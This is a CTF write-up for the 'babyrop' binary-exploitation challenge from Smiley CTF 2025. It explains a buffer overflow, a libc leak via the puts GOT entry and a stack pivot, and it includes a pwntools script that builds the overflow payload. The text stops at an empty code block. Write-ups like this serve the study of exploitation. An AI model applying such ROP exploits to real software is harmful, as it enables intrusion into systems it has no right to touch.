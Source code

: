 ```yaml
---
title: Smiley CTF - `babyrop` Challenge Writeup
summaary: My writeup for the `babyrop` challenge from Smiley CTF 2025.
description: My writeup for the `babyrop` challenge from Smiley CTF 2025.
tags: [ctf, writeup]
categories: [rop, stack pivot]
date: 2025-06-16
draft: false
---
```

# Smiley CTF - `babyrop` Writeup
## 0x00 - Overview
`Checksec` on given binary:
```
➜  babyrop checksec vuln                           
[*] '/home/delete/CTFs/SmileyCTF/babyrop/vuln'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
This challenge is mixture of ROP, Stack Pivot and libc leak.<br>
## 0x01 - Initial Analysis
Now I will try to explain how to solve this challenge step by step.
We have given buffer space of `0x20` bytes and there is buffer overflow vulnerability. We can use this to overwrite the variables. Hmm.. seems simple, right? But wait, there is a catch. We don't have proper gadgets in given binary. So we have to use `libc` gadgets to solve this challenge. To use them we need to libc address. We can do it by leaking puts address through GOT table. After that we can calculate libc base address and then we can use `libc` gadgets to solve this challenge.<br>
On my first attempt I managed to leak libc address but due to `leave; ret` instruction, there is no valid data present at my rbp. Value of rbp is `0x0` and it is not valid address it will cause segmentation fault. So I have to use `stack pivot` technique to solve this challenge.<br>
My Intial Script:
```python
from pwn import *

elf =  context.binary = ELF('./vuln_patched')
libc = ELF('./libc.so.6')
gs = '''
'''
p = process()
gdb.attach(p,gdbscript=gs)
payload = b'A'*8*4
payload += p64(0x000000404010+0x20) # rbp to puts@got + 0x20 
payload += p64(0x0000000000401211) # rip to puts
payload += p64(0x4011cf) # main address
p.sendline(payload)
p.recvline()
s = p.recvall(timeout=1)
s = s[:-1]
addr = int.from_bytes(s, 'little')
log.info(f'libc Leak: {hex(addr)}')
libc.address = addr - libc.sym['puts']
log.info(f'libc base: {hex(libc.address)}')
p.interactive()

```
Why I used `0x000000404010+0x20` as rbp? Because we have `0x20` bytes buffer space.
```
```